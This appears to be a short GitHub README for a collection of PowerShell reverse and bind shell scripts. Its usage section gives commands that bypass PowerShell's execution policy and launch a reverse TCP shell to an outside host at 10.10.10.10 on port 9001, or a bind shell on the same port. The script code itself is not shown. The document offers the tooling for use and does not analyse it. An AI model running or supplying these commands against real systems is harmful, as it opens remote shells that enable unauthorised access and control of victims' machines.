 # PowerShell-Reverse-Shells
Selection of reverse shells written in powershell

## Example Usage
If the system allows it you might be able to just execute the scripts with the required arguments, but usually you will need to bypass the execution policy, illustrated below.
```
powershell.exe -ExecutionPolicy ByPass "&.\reverse_tcp.ps1 -server 10.10.10.10 -port 9001"
powershell.exe -ExecutionPolicy ByPass "&.\bind_tcp.ps1 -port 9001"
```

